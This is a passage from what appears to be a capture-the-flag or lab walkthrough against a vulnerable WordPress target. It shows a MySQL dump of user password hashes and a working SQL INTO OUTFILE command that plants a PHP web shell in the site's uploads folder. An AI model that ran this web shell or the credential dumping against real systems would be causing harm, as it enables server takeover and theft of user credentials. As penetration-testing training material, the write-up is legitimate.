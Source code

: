 ```sql
| user_pass           | varchar(64)         | NO   |     |                     |                |
| user_nicename       | varchar(50)         | NO   | MUL |                     |                |
| user_email          | varchar(100)        | NO   |     |                     |                |
| user_url            | varchar(100)        | NO   |     |                     |                |
| user_registered     | datetime            | NO   |     | 0000-00-00 00:00:00 |                |
| user_activation_key | varchar(60)         | NO   |     |                     |                |
| user_status         | int(11)             | NO   |     | 0                   |                |
| display_name        | varchar(250)        | NO   |     |                     |                |
+---------------------+---------------------+------+-----+---------------------+----------------+
10 rows in set (0.00 sec)

mysql> SELECT user_login, user_pass FROM wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| John       | $P$B7889EMq/erHIuZapMB8GEizebcIy9. |
| Elly       | $P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0 |
| Peter      | $P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0 |
| barry      | $P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0 |
| heather    | $P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10 |
| garry      | $P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1 |
| harry      | $P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0 |
| scott      | $P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1 |
| kathy      | $P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0 |
| tim        | $P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0 |
| ZOE        | $P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1 |
| Dave       | $P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy. |
| Simon      | $P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0 |
| Abby       | $P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs. |
| Vicki      | $P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131 |
| Pam        | $P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0 |
+------------+------------------------------------+
16 rows in set (0.01 sec)
```

Awesome! We got the password hashes for all the WordPress users on the blog site. If we wanted to - we could use HashCat to crack the MD5 passwords - but I will leave that out for now, as I don't need a password (since I got root in the MySQL Server).

Since I'm already "root" in the MySQL Server, I decided to upload a [PHP Command Shell](http://php.net/manual/en/function.shell-exec.php) in the **/wp-content/uplaods/** section as **shell.php** using MySQL.

I got the idea from [InfoSec Institute](http://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/) on gaining a reverse shell using SQL Injection.

So what we do is type in the following command in the MySQL command line.

```sql
mysql> Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```

Once done, we can navigate to **https://192.168.1.13:12380/blogblog/wp-content/uploads/**, and we should see our php shell in there.
